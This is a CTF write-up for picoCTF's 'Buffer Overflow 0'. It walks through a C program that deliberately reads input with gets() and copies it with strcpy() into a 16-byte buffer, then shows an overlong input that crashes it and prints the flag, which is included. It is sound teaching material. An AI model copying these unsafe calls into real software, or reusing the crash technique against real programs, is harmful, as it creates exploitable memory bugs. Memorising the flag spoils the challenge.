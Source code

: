 ## Buffer Overflow 0

1. An instance of the challenge is initiated:
```
nc saturn.picoctf.net 51857
```
2. Output:
```
Input: hello
The program will exit now
```
3. The source file is examined:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
4. On going through the file, the flag is printed with the ```void sigsegv_handler``` which takes a signal input.

5. In the ```main``` function, a signal handler is created. An input is taken initially in variable ```buf1[100]```. It is passed on to the ```vuln()``` function which declares a ```buf2[16]``` variable and copies the contents of buf1 to buf2. 

6. Going by the challenge name, it was intuitive to think about somehow overflowing the buffer, by inputting a suitable value that would trigger the signal for the flag to print out.

7. The following prints the flag:
```
Input: jjhjhjhjhjhjhjhjhjhhjhjhjhjhhjjhj
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

